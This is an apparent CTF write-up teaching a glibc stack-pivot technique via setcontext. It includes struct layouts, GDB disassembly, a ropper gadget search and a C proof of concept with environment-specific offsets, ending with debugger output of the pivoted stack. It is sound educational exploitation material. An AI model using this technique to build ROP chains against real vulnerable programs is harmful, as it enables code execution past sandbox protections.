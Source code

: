 # Stack pivoting with setcontext

Usually in CTF challenges we have at our disposal a so named _one gadget_ or _magic gadget_ which allows directlly executing `execve("/bin/sh", 0, 0)` by simply controlling the **RIP**. Sometimes this approach is not reliable by a couple of reasons:

- the constraints for _one gadget_ are not satisfied
- the process is sandboxed using **seccomp** and `execve()` is not allowed

To overcome the situation we can try to pivot the stack to a different location (usually the heap) leveraging a classic ROP chain attack. We'll use `setcontext` to conduct our attack.

PoC source code [here](https://github.com/JustBeYou/ctfs/blob/master/writeups/setcontext_trick.c).

## Preconditions

- GNU/Linux environment with glibc
- Known address to a contigous (writable) region of memory
- Known base of **libc**
- A way to take control of **RIP** and **RDI**

Instead of writing an actual challenge to exploit, we'll focus on implementing the attack directly in C using a single program. Here are the details of my environment, you'll have to change the offsets according to your own:

```c
/**
 * System
 *  Fedora release 31 (Thirty One)
 *  GNU/Linux 5.6.13-200.fc31.x86_64
 *  ldd (GNU libc) 2.30
 *
 * Compile
 *  gcc setcontext_trick.c -g -o setcontext_trick
 */
```

## Overview of setcontext

`setcontext` is a function from libc used to switch (user-level) contexts between threads. You can read more about it on its [man page](https://linux.die.net/man/2/setcontext). The most interesting thing about it is that a context contains a complete copy of machine's registers including **RSP**, so by calling `setcontext` with a well-crafted structure, we can pivot the stack to an arbitrary location.

We have to dig inside `struct ucontext` so we'll know which field controls the stack pointer.

```c
typedef struct ucontext {
    struct ucontext *uc_link;
    sigset_t         uc_sigmask;
    stack_t          uc_stack;
    mcontext_t       uc_mcontext;
    ...
} ucontext_t;
```

`mcontext_t uc_mcontext` ([source](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86/sys/ucontext.h.html#133)) field stores the machine state which contains the saved registers.

```c
typedef struct
  {
    gregset_t __ctx(gregs);
    /* Note that fpregs is a pointer.  */
    fpregset_t __ctx(fpregs);
    __extension__ unsigned long long __reserved1 [8];
} mcontext_t;
```

General purpose registers are stored in `gregs` and they have the following order ([source](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86/sys/ucontext.h.html#gregset_t)):

```c
typedef greg_t gregset_t[__NGREG];
#ifdef __USE_GNU
/* Number of each register in the `gregset_t' array.  */
enum
{
  REG_R8 = 0,
# define REG_R8                REG_R8
  REG_R9,
# define REG_R9                REG_R9

...

# define REG_RSP        REG_RSP // 15th index

...
```

In conclusion, our target is `ucontext_t.uc_mcontext.gregs[REG_RSP]`, where `REG_RSP = 15`.

## Problems with the naive approach

Now, we could try to simply call `setcontext` with a fake structure and take control of **RSP** but this would raise two major problems:

- `setcontext` is using the system call `sigprocmask` and it's very probable to be blocked by `seccomp`
- `setcontext` is reloading FPU x87 environment using `fldenv` so we would need to craft a valid structure for it too

```c
// Naive approach
ucontext_t* ucp = calloc(sizeof(ucontext_t), 1);
ucp->uc_mcontext.gregs[REG_RSP] = 0xcafebabe;

setcontext(ucp);
```

By digging into the [source code](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86_64/setcontext.S.html#__setcontext) of `setcontext` we can find a way to overcome the limitations of this approach.

Lines [47](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86_64/setcontext.S.html#47) and [59](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86_64/setcontext.S.html#59) cause the above mentioned problems. To avoid them, we could jump just after line 60, directly executing the part that reloads general purpose registers. We can find the corresponding offset in the binary by using GDB:

```
(gdb) x/10i setcontext+0x3d
   0x7ffff7e202cd <setcontext+61>:	mov    rsp,QWORD PTR [rdx+0xa0]
   0x7ffff7e202d4 <setcontext+68>:	mov    rbx,QWORD PTR [rdx+0x80]
   0x7ffff7e202db <setcontext+75>:	mov    rbp,QWORD PTR [rdx+0x78]
   0x7ffff7e202df <setcontext+79>:	mov    r12,QWORD PTR [rdx+0x48]
   0x7ffff7e202e3 <setcontext+83>:	mov    r13,QWORD PTR [rdx+0x50]
   0x7ffff7e202e7 <setcontext+87>:	mov    r14,QWORD PTR [rdx+0x58]
   0x7ffff7e202eb <setcontext+91>:	mov    r15,QWORD PTR [rdx+0x60]
   0x7ffff7e202ef <setcontext+95>:	test   DWORD PTR fs:0x48,0x2
   0x7ffff7e202fb <setcontext+107>:	je     0x7ffff7e203b6 <setcontext+294>
   0x7ffff7e20301 <setcontext+113>:	mov    rsi,QWORD PTR [rdx+0x3a8]
```

Unfortunately, another problem arises: the structure was previously loaded into **RDX** and we have control only over **RDI**.

## Controlling RDX

As we already know libc's base we have plenty of gadgets to work with. In this case, we need a gadget that allows setting **RDX** by using **RDI** and then calling a function by a controlled pointer. Using `ropper` and some `grep` trickery, we find just the right thing:

```bash
$ ropper -f /lib64/libc.so.6 --nocolor | grep -E "mov rdx, .*rdi" | grep -E "(call|jmp) qword ptr \[rdx"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x000000000012ff3c: add byte ptr [rax], al; add byte ptr [rax], al; mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
0x000000000012ff3e: add byte ptr [rax], al; mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
0x000000000012ff40: mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
```

The gadget at `0x12ff40` is perfect for our use case.

```asm
# rdi should be our controlled buffer
mov rdx, qword ptr [rdi + 8]; # load a controlled value into rdx
mov qword ptr [rsp], rax;
call qword ptr [rdx + 0x20];  # call using a controlled pointer
```

## Crafting the final payload

Using the knowledge we gained above, we can write our proof of concept exploit:

1. Leak and call primitives

```c
size_t leak_libc() {
    return (size_t)stdout - 0x1c3500;
}

void call(void* p, size_t arg) {
    void (*func_ptr)(size_t) = p;
    func_ptr(arg);
}
```

2. Alloc a fake stack and prepare gadgets' addresses

```c
size_t* fake_stack = malloc(0x200);
for (int i = 0; i < 10; i++) fake_stack[i] = 0xdeadbeef;

size_t setcontext_addr = leak_libc() + 0x4c290;
void* load_rdx = (void*)(leak_libc() + 0x12ff40);
```

3. Create the fake context structure and load it

```c
ucontext_t* ucp = calloc(sizeof(ucontext_t), 1);
ucp->uc_mcontext.gregs[REG_RSP] = (size_t)fake_stack; // new stack

size_t* raw_ucp = (size_t*)ucp;
raw_ucp[1] = (size_t)ucp; // [rdi+0x8]  = &ucp => rdx = &ucp
raw_ucp[4] = setcontext_addr + 0x3d;   // [rdx+0x20] = setcontext+0x3d

call(load_rdx, (size_t)ucp);
```

Profit!

```
Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────── registers ────
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x0
$rdx   : 0x0
$rsp   : 0x00000000004052a0  →  0x00000000deadbeef
$rbp   : 0x0
$rsi   : 0x0
$rdi   : 0x0
$rip   : 0x0
$r8    : 0x0
$r9    : 0x0
$r10   : 0x3d0
$r11   : 0x00007ffff7f96a40  →  0x0000000000405870  →  0x0000000000000000
$r12   : 0x0
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
──────────────────── stack ────
0x00000000004052a0│+0x0000: 0x00000000deadbeef   ← $rsp
0x00000000004052a8│+0x0008: 0x00000000deadbeef
0x00000000004052b0│+0x0010: 0x00000000deadbeef
0x00000000004052b8│+0x0018: 0x00000000deadbeef
0x00000000004052c0│+0x0020: 0x00000000deadbeef
0x00000000004052c8│+0x0028: 0x00000000deadbeef
0x00000000004052d0│+0x0030: 0x00000000deadbeef
0x00000000004052d8│+0x0038: 0x00000000deadbeef
────────────────── code:x86:64 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x0
─────────────────── threads ────
[#0] Id 1, Name: "setcontext_tric", stopped 0x0 in ?? (), reason: SIGSEGV
```

Complete source code of PoC [here](https://github.com/JustBeYou/ctfs/blob/master/writeups/setcontext_trick.c).

## Conclusions

We can use this tehnique in a variety of challenges where getting a ROP chain seems impossible, especially in heap challenges where pivoting using a classic `retn` instruction is not an option and `seccomp` does not allow us to execute the _magic gadget_.
